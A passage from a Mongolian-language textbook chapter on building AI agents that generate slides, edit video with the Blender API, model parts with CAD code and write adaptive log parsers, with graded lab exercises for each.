> **Туршилтын зорилго**: Код дахь нарийн төвөгтэй бизнесийн дүрмийг кодлох нь жижиг Model (Qwen3-4B) эдгээр дүрмийг гүйцэтгэх нарийвчлал, тууштай байдлыг мэдэгдэхүйц сайжруулдаг болохыг баталгаажуулах.
>
> **Техникийн арга барил**: τ-bench агаарын тээврийн хэрэглэгчийн үйлчилгээний хувилбар дээр үндэслэн хяналттай туршилт зохион бүтээх. **Хяналтын бүлэг**: Model-ын өөрийн үндэслэлд тулгуурлан цэвэр байгалийн хэлний дүрэм. **Туршилтын бүлэг**: Гурван түвшний хамгаалалт — системийн хүсэлт нь байгалийн хэлний дүрмийг хадгалдаг; хэрэгслийн тайлбар нь бүрэн бодлогыг жагсаасан бөгөөд Model-ыг дуудахаас өмнө нөхцөл бүрийг нэг нэгээр нь шалгахад чиглүүлэхийн тулд нэмэлт `expected_*` параметрүүдийг ашигладаг (шалгах хуудас); хэрэгсэл нь дуураймал мэдээллийн сангийн газрын үнэнд үндэслэн код дээр суурилсан баталгаажуулалтыг дотооддоо гүйцэтгэдэг (бүх бодлогын баримтуудыг мэдээллийн сангаас авдаг, цагийг Server-ийн цагаас авдаг бөгөөд Model-ын өөрөө мэдээлсэн параметрүүдэд итгэхгүй). Үнэлгээний үзүүлэлтүүд: даалгаврын амжилтын түвшин, бодлогын зөрчлийн тоо, хүчингүй хэрэгслийн дуудлагын тоо, хэрэглэгчийн туршлага.
>
> **Хүлээгдэж буй үр дүн**: Туршилтын бүлэг нь хяналтын бүлгээс мэдэгдэхүйц илүү гүйцэтгэлтэй байна. Хамгийн чухал нь Model нь параметрүүдийг бэлтгэх явцад бодлогын зөрчлийг бие даан тодорхойлж, хэрэгслийг дуудахгүйгээр хувилбаруудыг санал болгож, параметрүүдийн утгыг шалгах хуудас болгон харуулна. Эцэст нь, өөрөө мэдээлсэн `expected_*` утгууд болон мэдээллийн сангийн үндэслэлийн үнэн хоёрын хоорондох зөрүүний түвшинг хэмжиж, шалтгааны алдааг илрүүлэхэд Server талын баталгаажуулалт яагаад шаардлагатай байгааг харуулна.
>

### Кодоор удирдуулсан мультимедиа үүсгэлт

Олон нарийн төвөгтэй баримт бичгийг бүтээх нь үндсэндээ бүтэцлэгдсэн өгөгдлийн зохион байгуулалт, танилцуулга юм. Энэ нь танилцуулга, техникийн тайлан эсвэл интерактив програм байсан ч үндсэн бүтцийг кодоор тодорхойлдог - HTML нь бүтцийг тайлбарладаг, CSS нь хэв маягийг хянадаг, JavaScript нь интерактив байдлыг хэрэгжүүлдэг. Уламжлалт баримт бичиг бүтээх нь GUI дээр суурилсан WYSIWYG засварлагчдад суурилдаг бөгөөд эдгээр нь Agents-д тохирохгүй, учир нь тэдгээр нь харааны тайлбар болон заагчийн нарийн байрлал шаарддаг. Код үүсгэх замаар Agents нь харааны байрлалын бэрхшээлийг даван туулж, баримт бичгийг нарийн хянах боломжтой болдог - элемент бүрийн байрлал, хэв маяг, агуулгыг тодорхой тодорхойлсон бөгөөд програмчлалын дагуу өөрчилж, оновчтой болгож болно.

**PPT үеийн Agent.**

PPT бүтээх нь маш их хөдөлмөр шаарддаг гэдгээрээ алдартай. Ердийн эрдэм шинжилгээний танилцуулга нь хэдэн арван слайдтай үргэлжилдэг бөгөөд тус бүр нь нямбай зохион байгуулалт, тодорхойлсон гол санаа, сайн сонгосон диаграмм шаарддаг. Гэсэн хэдий ч PPT бүтээхийг код үүсгэх асуудал болгон дахин дүрслэх нь төвөгтэй байдлын ихэнх хэсгийг арилгадаг. Slidev гэх мэт орчин үеийн танилцуулгын хүрээ нь гоёмсог дизайны философийг баримталдаг: Markdown болон HTML дээр агуулгыг тодорхойлно. Слайд үүсгэхэд товч тэмдэглэгээний хэдэн мөр шаардлагатай бөгөөд хүрээ нь дүрслэх, зохион байгуулах, хөдөлгөөнт дүрслэх ажлыг хариуцдаг. Код үүсгэх ажлыг эзэмшсэн Agent-ийн хувьд энэ нь хамгийн тохиромжтой газар нутаг юм.



Гэхдээ код үүсгэх нь хангалтгүй юм. **Agent кодыг бичсэний дараа үр дүн нь хэрхэн гарч ирэхийг мэдэхгүй байна**: контент хэт ачаалалтай, текст хэт их, зураг буруу хэмжээтэй байна - слайдууд үнэхээр гарч ирэх хүртэл эдгээрийн аль нь ч харагдахгүй. Тиймээс код үүсгэх болон чанарын хяналтыг хоёр бие даасан Agents-д оноохын тулд **Санал гаргагч-Шүүмжлэгч** механизм (Зураг 5-5-д үзүүлсэн) шаардлагатай:

- **Санал болгогч Agent** нь Slidev кодыг үүсгэх, агуулгын логик бүтцийг ойлгох, сайн бүтэцтэй слайд болгон зохион байгуулах үүрэгтэй.
- **Шүүмжлэгч Agent** нь хуудас бүрийг зураг болгон харуулах кодыг ажиллуулж, Vision LLM (зургийг "харж" чаддаг олон горимт том Model) ашиглан үзүүлсэн слайдуудын агуулгын нягтрал, уншигдах байдал, зохион байгуулалтын чанар, харагдах байдлын сэтгэл татам байдлыг үнэлж, **бүтэцлэгдсэн сайжруулалтын саналуудыг** гаргаж ирдэг - тодорхойгүй "сайн харагдахгүй байна" биш, харин тодорхой, хэрэгжүүлэх боломжтой удирдамж (жишээ нь, "3-р хуудас: хэт их контент байна, хуваах талаар бодож үзнэ үү"; "7-р хуудас: код блокийн фонт хэт жижиг байна, 14pt хүртэл нэмэгдүүлэхийг зөвлөж байна"), үүнд хуудасны дугаар, асуудлын төрөл, ноцтой байдал зэрэг талбарууд орно.

Санал болгогч нь санал хүсэлтийг хүлээн авч, тайлбарлаж, кодыг өөрчилж, шинэ хувилбарыг Шүүмжлэгчид дахин илгээнэ. Энэ мөчлөг нь танилцуулга нь чанарын стандартад нийцэх эсвэл давталтын дээд хязгаарт (жишээлбэл, таван удаагийн давталт) хүрэх хүртэл үргэлжилнэ. "Чанар нь стандартад нийцэх" ба "хамгийн их удаагийн давталт" нь Loop Engineering-ийн шаарддаг хоёр төрлийн тодорхой зогсоох нөхцөл юм: эхнийх нь шүүмжлэгчид зорилгодоо хүрсэн гэж шийдэх боломжийг олгодог; сүүлийнх нь давталт алдагдахаас сэргийлдэг төсвийн хязгаар юм.

Энд давталтын давталт болон Бүлэг 4 дэх **урьдчилан батлах** механизм нь хоёулаа Бүлэг 1-д танилцуулсан Санал болгогч-Шүүмжлэгчийн хэв маягийг дагадаг: үүсгэх болон хянах нь тусдаа бөгөөд хоёр Model бие даан үнэлэгддэг. Дугуйн инженерчлэлийн хувьд эдгээр нь тусдаа "үйлдвэрлэгч" болон "баталгаажуулагч" дэд Agent-ууд юм. Хоёр програм нь зорилго болон ажлын урсгалаараа ялгаатай. Бүлэг 4 нь нэг эргэлт буцалтгүй үйлдлийг батлах эсвэл татгалзахад хэв маягийг ашигладаг; энд энэ нь давталтын контентын сайжруулалтыг олон үе шаттайгаар удирддаг бөгөөд Шүүмжлэгч нь Санал болгогчид боломжгүй байгаа дүрслэгдсэн гаралтыг хардаг. Гол дизайны зарчмууд нь тууштай байдаг (нийтлэг зорилгын хязгаарлалт, ижил төстэй алдааны магадлалыг бууруулахын тулд өөр өөр Model-ын гэр бүлийг ашиглах, Санал болгогчийн замналд нэмэгдсэн тусгай үйл явдал болгон санал хүсэлт). Ганц Agent-ын давталт биш харин хоёр Agent-ын хөдөлмөрийн хуваарилалтыг ашиглах **гол давуу тал** нь **Context менежмент**-д оршино: Шүүмжлэгч нь зөвхөн хамгийн сүүлийн үеийн хувилбарын дүрслэгдсэн зургуудыг боловсруулдаг бөгөөд түүхэн хувилбаруудад нөлөөлөхгүй; Санал болгогч нь зөвхөн бүтэцлэгдсэн текстийн санал хүсэлтийг хуримтлуулж, цөөн тооны Token хэрэглэж, үндэслэлийг хялбар болгодог. Ганц Agent-ын шийдэл нь ижил Context дэх хэдэн арван хуудасны олон тойргоос дүрслэгдсэн зургийг хуримтлуулах шаардлагатай бөгөөд энэ нь Context-ийн хязгаарыг хурдан давж гарах болно. Энэ механизмыг видео засварлах болон лог дүрслэх дараагийн туршилтуудад дахин ашиглах болно; Бүлэг 10 нь Санал болгогч-Шүүмжлэгчийн парадигмаас гадна бусад олон Agent-ын хамтын ажиллагааны горимуудыг цаашид судлах болно.

> **5-6-р туршилт ★★: Бичлэгээс PPT-г автоматаар үүсгэх**
>
> **Туршилтын зорилго**: Эрдэм шинжилгээний өгүүллээс өндөр чанартай илтгэлүүдийг автоматаар гаргаж, контент бүтээх чанарын хяналтад Санал болгогч-Шүүмжлэгчийн механизмын үр нөлөөг баталгаажуулах.
>
> **Техникийн арга**: Slidev хүрээг ашиглана уу. Санал болгогч Agent нь өгүүллийн PDF хувилбарыг уншиж, бүлгийн бүтэц, гол аргументууд болон тоонуудыг гаргаж, PPT бүтцийг төлөвлөж, Slidev кодыг хуудас бүрээр үүсгэдэг. **Гол алхам**: Шүүмжлэгч Agent нь слайд бүрийг рендерлэж, дэлгэцийн агшин авч, дараа нь Vision LLM ашиглан үр дүнг текстийн хэт халалт, контентын хэт ачаалал, зургийн зохисгүй хэмжээг үнэлдэг. Санал болгогч болон Шүүмжлэгч нь танилцуулга чанарын стандартад нийцэх хүртэл давталт хийдэг.
>
> **Хүлээн авах шалгуур**: Өгүүллийн гол хувь нэмрийг хамарсан 10-20 слайд үүсгэнэ үү. Хавсаргасан тексттэй тохирох өгүүллээс дор хаяж гурван зургийг оруулна уу. Дүрслэлд текстийн хэт их ачаалал байхгүй, боломжийн зохион байгуулалт. Ганц төлөөлөгчийн өөрийгөө хянах болон Санал болгогч-Шүүмжлэгчийн хөдөлмөрийн хуваарилалтын хооронд Context хэрэглээ болон үүсгэх чанарыг харьцуулна уу.
>

> **5-7-р туршилт ★★: Бичгийн тайлбар видеог автоматаар үүсгэх**
>
> **Туршилтын зорилго**: Тайлбар видеог автоматаар үүсгэхийн тулд харааны болон сонсголын сувгуудыг хослуулан PPT үүсгэх чадавхийг өргөжүүлэх.
>
> **Техникийн арга**: 5-6-р туршилтын танилцуулгын ажлын урсгалд тулгуурлан Agent нь слайд бүрийн хувьд харилцан ярианы хүүрнэл үүсгэдэг бөгөөд слайдын текстийг давтахын оронд үзэгчийг чиглүүлдэг бөгөөд аудиог нэгтгэхийн тулд TTS (текстээс ярианд хувиргах)-ийг ашигладаг бөгөөд эцсийн видеог гаргахын тулд слайдын зураг болон аудиог FFmpeg-тэй нэгтгэдэг.
>
> **Хүлээн авах шалгуур**: Слайд бүрийн үзүүлэх хугацаа нь түүний өгүүлэмжтэй яг таарч, өгүүлэмж нь харааны элементүүдтэй тохирч байгаа 5-15 минутын видео бичлэг хийх.
>
>
> 
>
>

**Видео засварлалт Agent.**

Ерөнхий зориулалттай Компьютерийн хэрэглээний интерфэйсээр дамжуулан видео засварлах нь үндсэн саад бэрхшээлийг үүсгэдэг: видео засварлах график хэрэглэгчийн интерфэйс нь маш нарийн төвөгтэй бөгөөд цагийн хуваарь, давхарга, эффект самбаруудтай. Agent нь эдгээр элементүүдийг хулгана болон гараар олж, удирдах ёстой бөгөөд энэ нь Model-уудын гаргахад хэцүү байдаг яг нарийн координатуудыг шаарддаг.

Видео засварлах ажлыг API дуудлага болон код үүсгэлт болгон дахин хүрээлэх нь нарийн төвөгтэй байдлыг эрс багасгадаг. Олон мэргэжлийн програм хангамжийн хэрэгслүүд (жишээлбэл, Python скриптийг дэмждэг нээлттэй эхийн 3D бүтээх болон видео нэгтгэх хэрэгсэл болох Blender; аудио/видео боловсруулах зориулалттай команд мөрийн Швейцарийн армийн хутга болох FFmpeg) нь үндсэн функцийг бүтэцлэгдсэн, нэгтгэх боломжтой байдлаар харуулдаг програмчлагдсан API интерфэйсүүдийг өгдөг. Жишээлбэл, Blender Python API нь видео клипийн импортлох, тайрах, цэгцлэх, шилжилтийн эффект нэмэх, аудиог холих зэрэг үйлдлүүдийг нарийн хянах боломжийг олгодог бөгөөд үйлдэл бүр нь тодорхой функцийн дуудлагатай тохирч байдаг. Agent-ийн хувьд байгалийн хэлний шаардлагыг API дуудлага болгон хөрвүүлэх нь GUI интерфэйсийг ойлгож, хулганы товшилтыг дуурайхаас хамаагүй хялбар юм. PPT үүсгэхтэй адил видео засварлалт нь Proposer-Reviewer механизмыг ашигладаг - Proposer Agent нь Blender скриптүүдийг үүсгэдэг, Reviewer Agent нь түлхүүр фрэймүүдийг рендерлэж, Vision LLM ашиглан үр нөлөөг шалгаж, өөрчлөлтийн талаар санал хүсэлт өгдөг.

> **5-8-р туршилт ★★: API дээр суурилсан ухаалаг видео засварлалт**
>
> **Туршилтын зорилго**: Blender Python API кодыг үүсгэснээр Agent-ийн видео засварлах чадварыг баталгаажуулж, мультимедиа контент боловсруулахад харааны санал хүсэлт дээр суурилсан санал болгогч-шүүмжлэгчийн механизмын үүргийг үнэлэх.
>
> **Гол бэрхшээл**: Хэрэглэгчийн байгалийн хэлний засварлах шаардлагыг ойлгож, тэдгээрийг API дуудлагын нарийн дараалал болгон хөрвүүлэх, янз бүрийн засварлах үйлдлүүдийг (тайрах, нэгтгэх, хадмал орчуулга, аудио трекийн холимог, визуал эффект) зохицуулах, мөн үүсгэсэн Python скрипт зөв ажиллаж байгаа эсэхийг баталгаажуулах. Санал болгогч Agent кодыг бичсэний дараа үүссэн видеог шууд үнэлж чадахгүй; энэ нь тоймч Agent-д найдаж, гол фрэймүүдийг шалгахын тулд Vision LLM ашиглах ёстой.
>
> **Техникийн арга**: Хэрэглэгч видео материал (жишээ нь, серфинг, явган аялал, цанаар гулгах зэрэг үзэгдлүүдийг агуулсан түүхий бичлэг) өгч, шаардлагыг байгалийн хэлээр тайлбарлана (жишээ нь, "Серфинг хийх хэсгийг гаргаж авах"). Санал болгогч Agent нь **хоёр үе шаттай нутагшуулах стратеги** бүхий видео шинжилгээний дэд Agent-ыг ашигладаг:
>
> **Алхам 1, бүдүүн нутагшуулалт**: Дэд Agent-ыг видео зам, 10 секундын кадрын түүвэрлэлтийн интервал болон зорилтот асуултаар дууд. Дэд Agent нь тухайн интервал дахь кадруудыг авахын тулд ffmpeg ашиглан дэлгэцийн агшин болон асуултыг Vision LLM руу илгээж, үзэгдлийн интервалыг буцаана (жишээ нь, "Серфинг 40-110 секундын хооронд байна").
>
> **2-р алхам, нарийн нягтралтай нутагшуулалт**: Дэд Agent-ыг илүү нарийн хүрээнд дахин дуудаж, хил хязгаарыг нарийн тодорхойлохын тулд секундэд нэг кадр түүвэрлэнэ үү.
>
> Видео шинжилгээг дэд Agent болгон багтаах нь олон тооны дэлгэцийн агшинг Agent-ийн үндсэн Context-эд эзлэхээс сэргийлдэг. Байршуулалтын дараа Санал болгогч нь Blender API скриптийг үүсгэдэг. Шүүмжлэгч Agent нь хурдан урьдчилж харах, түлхүүр фрэймүүдийг шалгах, өөрчлөлтийн талаар санал хүсэлт өгөх бөгөөд бүрэн дүрслэхээс өмнө стандартыг хангатал давтдаг.
>
> **Хүлээн авах шалгуур**: Agent нь видеоны өөр өөр үзэгдлүүдийг зөв тодорхойлж, байгалийн хэлний зааврын дагуу засварлах скриптийг зөв үүсгэж чадна. Эхлэл ба төгсгөлийн цэгүүд нь зөв (3 секундын дотор алдаа гарна). Хэрэв зааварт тусгай эффектийн шаардлага (удаашруулсан хөдөлгөөн, шилжилт, хадмал орчуулга) багтсан бол үүсгэсэн видео нь эффектүүдийг зөв хэрэглэнэ. Шүүмжлэгч Agent нь илэрхий алдааг (холбогдохгүй хэсгүүдийг оруулаад гол контент дутуу байгаа) илрүүлж, залруулгыг идэвхжүүлж чадна. Эцсийн гаралтын видео файл нь зөв форматтай бөгөөд хүлээгдэж буй чанарыг хангасан байна.
>

**3D болон үйлдвэрлэлийн эд ангиуд: Код үүсгэх болон Models үүсгэх хоёрын хоорондох хил хязгаар.**

"Юм үүсгэх" тухайд Agent нь хоёр арга замтай тулгардаг: нэг нь кодыг яг нарийн бүтээхийн тулд бичих (CadQuery, OpenSCAD, Blender API); нөгөө нь 3 хэмжээст генератив Model-ыг шууд дуудах (текстээс дүрс рүү Model-тай ижил диффузийн бүлэгт багтдаг Hunyuan 3D гэх мэт текст/зургаас 3 хэмжээст Model-ууд). Олон хүмүүс код үүсгэлтийг хэзээ ашиглах ёстой, хэзээ зураг/3 хэмжээст генератив Model-ыг ашиглах ёстой вэ гэсэн асуулттай тэмцдэг.

**Эхлээд, эд өлгийн зүйл авсаархан, нарийн тодорхойлолттой эсэхийг шалгаарай.** Аж үйлдвэрийн эд ангиуд мэдээж нэг тодорхойлолттой байдаг. Фланцыг гадна диаметр, зузаан, боолтны тойргийн диаметр, нүхний диаметр, нүхний тоо гэсэн таван эсвэл зургаан параметрээр бүрэн тодорхойлдог бөгөөд код нь түүний **алдагдалгүй** илэрхийлэл юм. Саванд байгаа ургамал, Тайху чулуу эсвэл хүний ​​царай өөр байдаг - тэдгээр нь тоо томшгүй олон нарийн ширийн зүйлтэй бөгөөд тэдгээрийн **дотоод нарийн төвөгтэй байдал нь бараг хязгааргүй** юм.

**Хоёрдугаарт, нарийвчлалын шаардлага болон баталгаажуулах чадварыг шалгана уу.** Эд ангийн хэмжээс бүр нь хатуу хязгаарлалттай байдаг - нүхний диаметр 5 мм, хүлцэл ±0.05 мм; үсээр таслагдсан тохиолдолд энэ нь хаягдал болно. Кодоор үүсгэсэн эд ангийг програмын аргаар шалгаж болно: торыг ачаалж, гадна диаметр болон нүхний байрлалыг хэмжиж, тэдгээрийг тодорхойлолттой харьцуулан зүйл бүрээр нь шалгана. 3D үүсгэгч Model-аар үйлдвэрлэсэн эд ангийг тодорхойлолттой шууд харьцуулж шалгаж болохгүй.

Хоёр маршрут нь өөр нэг практик байдлаар ялгаатай: **төлөөлөл ба засварлах боломжтой байдал**. Үйлдвэрлэлийн ажлын урсгал нь B-rep (хилийн дүрслэл) параметрийн хатуу биетүүдийг шаарддаг - STEP файл нь онцлог мод болон хэмжээст параметрүүдийг хадгалдаг бөгөөд CNC боловсруулалтыг шууд удирдаж чаддаг. 3D үүсгэгч Model нь гурвалжин торыг гаргаж ирдэг: муруй гадаргууг тоо томшгүй олон жижиг талуудаар ойролцоолж, томруулах үед нүхтэй харагддаг. Үйлчлүүлэгч "бэхэлгээний нүхийг M5-аас M6 болгон өөрчил" гэж хэлэхэд ялгаа нь тодорхой болно: кодын маршрут дээр та нэг тоог өөрчилж, дахин ажиллуулахад бусад бүх хэмжээс яг адилхан хэвээр байна; үүсгэгч Model-ын маршрут дээр цорын ганц сонголт бол бүх зүйлийг дахин үүсгэх явдал юм - бусад хэмжээсүүдийн зөрүү нь азтай эсэхээс үл хамааран.

Тиймээс маршрут сонгох нь өөрөө Agent-ийн гаргах ёстой шийдвэр юм: олдворын дотоод нарийн төвөгтэй байдал болон нарийвчлалын шаардлагыг жинлэж, даалгаврыг код үүсгэх эсвэл 3D үүсгэгч Model-т оноох. Бодит системд хоёр маршрутыг мөн хольж болно - кодоор геометрийг параметрийн дагуу үүсгэж, гадаргуугийн бүтцийг үүсгэгч Model-т шилжүүлж, тус бүрээс хамгийн сайныг нь авна.

> **5-9-р туршилт ★★: Нэг хэсгийн хоёр үеийн маршрут—Код ба үүсгэгч Model**
>
> **Туршилтын зорилго**: Хэмжээст үзүүлэлтүүдтэй ижил механик хэсгийг авч, код үүсгэх болон 3D үүсгэх Model-ын маршрутуудыг хэмжээст нарийвчлал, засварлах чадвар, үйлдвэрлэлийн чадвараар нь харьцуулж, "дотоод нарийн төвөгтэй байдал болон нарийвчлалын шаардлагын дагуу маршрутыг сонгох" шийдвэрийн хүрээг баталгаажуулна.
>
> **Техникийн арга**: Тодорхой тодорхойлолттой байгалийн хэлний шаардлага (жишээ нь, "фланц, гадна диаметр 80мм, зузаан 10мм, 60мм-ийн боолтны тойрог дээр 4 тэнцүү зайтай M5 бэхэлгээний нүх"). **А чиглэл**: Agent нь эд ангийг угсрахын тулд CadQuery (эсвэл OpenSCAD) код бичиж, STEP болон STL экспортлодог. **Б чиглэл**: гурвалжин тор авахын тулд ижил тодорхойлолтыг 3 хэмжээст үүсгэгч Model-т (жишээлбэл, Hunyuan 3D) хүлээлгэн өгнө. **Програмын баталгаажуулалт**: хоёр чиглэлийн гаралтын гол хэмжээсийг (гадаад диаметр, зузаан, нүхний байрлал, нүхний диаметр) тодорхойлолттой харьцуулан хэмжиж, бэхэлгээний гадаргуугийн тэгш байдлыг шалгана.
>
> Дараа нь "бэхэлгээний нүхийг M5-аас M6 болгон өөрчлөх" гэсэн өөрчлөлтийн хүсэлтийг гаргаж, зам бүрийн өөрчлөлтийн зардлыг бүртгэнэ үү - код зам дээр нэг параметрийг өөрчилж, дахин ажиллуулна; үүсгэгч Model зам дээр цорын ганц сонголт бол бүхэл зүйлийг дахин үүсгэх бөгөөд бусад хэмжээсүүд өөрчлөгдөхгүй гэсэн баталгаа байхгүй.
>
> **Хяналтын бүлэг**: ваартай ургамал үүсгэх ба хоёр маршрутын давуу талууд яг эсрэгээрээ байна - кодын маршрут дээр, процедурын чимээ нэмсэн ч үр дүн нь хөшүүн бөгөөд амьгүй; генератив Model-ын маршрут дээр энэ нь байгалийн бөгөөд тод байна.

### Систем адаптер болгон кодлох

Өмнөх хэсгүүдийн код нь ихэвчлэн "хүн рүү чиглэсэн" зүйлсийг үүсгэдэг - тайлан, слайд, интерфэйсүүд. Энэ хэсгийн код нь өөр чиглэл рүү чиглэж байна: **машиныг машинд холбох**. Бодит системд Agent-ийн холбогдох ёстой гадаад үйлчилгээнүүд нь ихэвчлэн бэлэн SDK байдаггүй бөгөөд тэдгээрийн интерфэйсүүд нь ховор цэвэрхэн байдаг - баримт бичиг дутуу байж магадгүй, хариу форматууд нь стандарт бус байж магадгүй бөгөөд талбарууд хувилбаруудаар дамжин шилжиж болно. Agent нь урьдчилан бүтээгдсэн адаптерийг хүлээх шаардлагагүй. Энэ нь API баримт бичгийг уншиж эсвэл хэд хэдэн бодит хариултыг шалгаж, дараа нь адаптерийг шаардлагатай үед үүсгэж болно: HTTP Client-ийг байгуулж, баталгаажуулалтын толгойнуудыг угсарч, стандарт бус хариу бүтцийг задлан шинжилж, дээд урсгалын өгөгдлийн Model-ыг доод урсгалын хэрэглэж болох хэлбэрт хөрвүүлж болно. Энд байгаа код нь дурын системийг холбох "нийтлэг цавуу" юм - зай байгаа газарт түүнийг нөхөхийн тулд шаардлагатай үед цавууны хэсэг үүсдэг. Энэ бол мета-чадварын "системийн интерфэйс" чиглэлийн гол цөм юм. Доор боловсруулсан дасан зохицох лог задлан шинжлэх нь ажиглалтын тохиргоонд тодорхой болсон энэхүү чадвар юм: хэзээ ч хөгжихөө больдоггүй лог форматуудтай тулгарахад Agent нь задлан шинжлэх кодыг шууд үүсгэснээр дасан зохицдог.

Энэхүү "нийтлэг цавуу" нь **API огт байхгүй** системүүдэд ч хамаатай: гадаад систем зөвхөн график интерфэйсийг ил гаргах үед Agent нь эхлээд Компьютерийн хэрэглээгээр дамжуулан интерфэйсийг ажиллуулж (Бүлэг 6-д дэлгэрэнгүй тайлбарласан), дараа нь амжилттай үйлдлийн дарааллыг дахин ашиглах боломжтой RPA хэрэгсэл болгон хувиргаж чадна - дараагийн удаа ижил даалгавар гарч ирэхэд энэ нь кодыг хурдан бөгөөд тогтвортой ажиллуулдаг бөгөөд үнэтэй харааны үндэслэл шаарддаггүй. RPA бол системийн адаптер гэж хэлж болно: програмчлалын интерфэйсгүй системүүдэд зориулсан адаптер. Бүлэг 9 нь ажлын урсгалыг бүртгэж, дахин ашиглах боломжтой код болгон хувиргах энэ үйл явцыг хөгжүүлдэг.

Өгөгдөл боловсруулалт нь програм хангамжийн систем дэх хамгийн түгээмэл бөгөөд хамгийн залхмаар ажлуудын нэг юм. Үүний үндсэн шалтгаан нь өгөгдлийн форматууд олон янз байдаг бөгөөд хэзээ ч зогсонги байдалд ордог. Нэг систем хөгжих явцдаа форматаа олон удаа өөрчилж болно - шинэ талбарууд, бүтэц өөрчлөгдсөн үүр, шинэ төрлүүд. Формат бүрт зориулсан задлан шинжлэгчийг гараар бичих нь засвар үйлчилгээний өндөр өртөгтэй байдаг: өөрчлөлт бүр нь задлан шинжлэх логикийг шинэчлэх, нийцтэй байдлыг шалгах, шинэ хувилбарыг илгээх гэсэн үг юм.

Код үүсгэх нь огт өөр аргыг санал болгодог: Agent нь шинэ форматтай таарахад дээжийн өгөгдлөөс шууд задлан шинжлэх код үүсгэдэг тул систем нь форматын хувьслыг хүний ​​оролцоогүйгээр автоматаар хянадаг.

**Agent Лог задлан шинжлэх болон дүрслэх.**

Agent системийн ажиглагдах байдал нь гүйцэтгэлийн урсгалын дүрслэлээс хамаарна. Нарийн төвөгтэй Agent даалгавар нь олон тооны LLM дуудлага, олон арван хэрэгслийн гүйцэтгэл, олон дэд Agent-уудын хоорондох харилцан үйлчлэл зэрэг олон зуун алхамыг багтааж болно. Энэ өгөгдлийг дүрслэн харуулах нь олон бэрхшээлтэй тулгардаг: өөр өөр хэрэгслүүд өгөгдлийг өөр өөр бүтэцтэй буцаадаг бөгөөд форматууд нь системийн давталттай хамт өөрчлөгддөг; бүрэн замнал нь хэдэн зуун мянган тэмдэгт агуулж болох бөгөөд тойм болон дэлгэрэнгүй мэдээллийн хоорондын тэнцвэрийг шаарддаг.

Код үүсгэх нь гоёмсог шийдлийг санал болгодог: автоматаар засварлах санал хүсэлтийн давталт үүсгэх. Фронтенд нь задлан шинжлэх боломжгүй лог форматтай тулгарах үед алдаа харуулахын оронд алдааны мэдээллийг (түүхий лог дээж, дэлгэрэнгүй алдаа) Agent руу автоматаар мэдээлдэг. Agent нь дээжийн өгөгдлийн бүтцийг шинжилж, зөв ​​​​шинжилж чадах фронтенд кодыг үүсгэдэг. Кодыг эхлээд задлан шинжлэх зөв эсэхийг шалгахын тулд виртуал хөтөч дээр автоматаар шалгадаг бол Vision LLM нь дүрслэлийг үнэлдэг. Хэрэв энэ нь хоёр шалгалтыг давсан бол фронтенд халуун шинэчлэлт болгон байршуулдаг.

> **5-10-р туршилт ★★★: Дасан зохицох лог задлан шинжлэх Систем**
>
> **Туршилтын зорилго**: Өөрөө хөгждөг Agent лог дүрслэлийн системийг бүтээх.
>
> **Техникийн арга**: Анхны систем нь зөвхөн үндсэн форматуудыг дэмждэг. Frontend нь задлан шинжлэх алдааг илрүүлдэг → Agent руу мэдээлдэг → Задлан шинжлэх код үүсгэдэг → Виртуал хөтчийн туршилт → Халуун шинэчлэлт байршуулдаг. Бүх үйл явц автоматжсан байдаг.
>
> **Хүлээн авах шалгуур**: Алдаа дутагдлыг автоматаар илрүүлж, суралцах үйлдлийг идэвхжүүлэх, автоматжуулсан шалгалтанд тэнцсэн код үүсгэх, халуун шинэчлэлтийн дараа шинэ форматуудыг зөв задлан шинжлэх.
>

**Agent гүйцэтгэлийн бүртгэлийн автомат шинжилгээ ба асуудлын оношлогоо.**

